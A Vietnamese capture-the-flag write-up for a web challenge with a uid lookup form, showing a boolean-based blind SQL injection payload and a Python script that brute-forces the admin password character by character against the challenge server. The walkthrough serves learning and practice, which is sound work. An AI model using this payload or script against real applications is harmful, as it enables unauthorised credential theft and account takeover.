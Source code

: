 # Task
![](https://hackmd.io/_uploads/Ska3BLffp.png)

## Recon
Ngay khi vừa mở challenge lên thì ta có một giao diện cho phép người dùng nhập vào đó là ```uid``` và trang web sẽ tìm xem người dùng với uid đó có tồn tại không 
![](https://hackmd.io/_uploads/HJNUUIMGa.png)
Nhưng nếu như ta nhập vào là admin thì sẽ ra kết quả khác
![](https://hackmd.io/_uploads/BJMcUUfzp.png)

## Exploit
Nhiệm vụ của chúng ta là tìm được password của admin và đăng nhập thành công vậy làm thế nào để có thể lấy được password của admin ở cột ```upw``` đây ta sẽ sử dụng payload như sau

```sql=
admin' AND (SELECT CASE WHEN substr(upw, 1, 1) = 'c' then (select 1 from users where uid ='admin') else (select 1 from users where uid = '1') END FROM users WHERE uid='admin') --/*
```
Giải thích đầu tiên là nhập vào đó là chữ admin để hoàn thành câu lệnh sql và thêm vào đó điều kiện là cắt chuỗi ở cột ```upw``` nếu như chữ cái đầu là chữ 'c' thì thực hiện câu lệnh ```select 1 from users where uid = 'admin'``` nếu không thì thực hiện câu lệnh ```select 1 from users where uid = '1'``` tại sao lại cần phải như thế là do ta có thể sử dụng dòng thông báo nếu như có tồn tại thì thông báo nếu không thì in ra thông báo không tìm thấy đây sẽ là điệu kiện để ta có thể biết rằng câu lệnh đã thành công hay chưa

Để đẩy nhanh tiến trình bruteforce mình có viết một đoạn script bằng python để hỗ trợ
```python=
import requests
import string
alphabet = "abcdefghjhijklmnopqrstuvwxyz0123456789_"
url = "http://18.141.217.137:32056"
payload = ""
headers = {"User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36"}
for i in range (1, 100):
    for char in alphabet:
        data = {
            "uid" : f"admin' AND (SELECT CASE WHEN substr(upw, 1, {i}) = '{payload + char}' then (select 1 from users where uid ='admin') else (select 1 from users where uid = '1') END FROM users WHERE uid='admin') --/*"
        }
        response = requests.get(url=url, headers=headers, params=data)
        if ("exists" in response.text):
            payload += char
            print("password is: " + payload)
            break


```
![image alt](https://scontent.fhan5-11.fna.fbcdn.net/v/t1.15752-9/394545513_3018486608285249_1568288228069427033_n.png?_nc_cat=100&ccb=1-7&_nc_sid=8cd0a2&_nc_ohc=vco85FWhs-4AX87iNsh&_nc_ht=scontent.fhan5-11.fna&oh=03_AdS7UQUmjN5WyCDuJE8UCgWv8fObFEhjTfh0YiPRT0uOBg&oe=655C37E9)
Đăng nhập vào với username là ```admin``` và password vừa mới tìm được thôi

## Flag

![image alt](https://scontent.fhan5-6.fna.fbcdn.net/v/t1.15752-9/395007852_1316189552363083_6640319045436703742_n.png?_nc_cat=105&ccb=1-7&_nc_sid=8cd0a2&_nc_ohc=Mo1ZuJyQTlAAX847pIX&_nc_ht=scontent.fhan5-6.fna&oh=03_AdQYqhqCRCtTatWiZYmPJHT3Dy0QFIA57y2JQMjiPBXelw&oe=655C5B7B)
